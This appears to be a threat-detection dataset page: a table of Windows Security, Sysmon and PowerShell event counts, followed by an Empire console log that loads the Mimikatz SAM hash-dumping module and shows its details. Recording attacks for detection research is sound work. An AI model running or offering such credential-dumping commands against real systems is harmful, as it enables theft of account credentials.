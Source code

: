 | Security                                                           | Microsoft-Windows-Security-Auditing                    | Detailed File Share                                    |              14 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Logoff                                                 |              13 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Other Policy Change Events                             |               8 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | File System                                            |               4 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | File Share                                             |               2 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Other Logon/Logoff Events                              |               2 |
| Microsoft-Windows-WMI-Activity/Operational                         | Microsoft-Windows-WMI-Activity                         | na                                                     |               3 |
| Microsoft-Windows-TerminalServices-LocalSessionManager/Operational | Microsoft-Windows-TerminalServices-LocalSessionManager | na                                                     |               4 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Process accessed (rule: ProcessAccess)                 |           32927 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Image loaded (rule: ImageLoad)                         |            1485 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Registry object added or deleted (rule: RegistryEvent) |            1002 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | File created (rule: FileCreate)                        |             405 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Registry value set (rule: RegistryEvent)               |             273 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Network connection detected (rule: NetworkConnect)     |             181 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Pipe Connected (rule: PipeEvent)                       |              77 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | RawAccessRead detected (rule: RawAccessRead)           |              48 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | File creation time changed (rule: FileCreateTime)      |              47 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Process Create (rule: ProcessCreate)                   |              27 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Process terminated (rule: ProcessTerminate)            |              19 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-PowerShell/Operational                           | Microsoft-Windows-PowerShell                           | Executing Pipeline                                     |            2764 |

## Attacker Activity

```
(Empire: Y298VW3B) > usemodule credentials/mimikatz/sam*
(Empire: powershell/credentials/mimikatz/sam) > info

              Name: Invoke-Mimikatz SAM dump
            Module: powershell/credentials/mimikatz/sam
        NeedsAdmin: True
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @JosephBialek
  @gentilkiwi

Description:
  Runs PowerSploit's Invoke-Mimikatz function to extract
  hashes from the Security Account Managers (SAM) database.

Comments:
  http://clymb3r.wordpress.com/ http://blog.gentilkiwi.com htt
  ps://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#ls
  a
```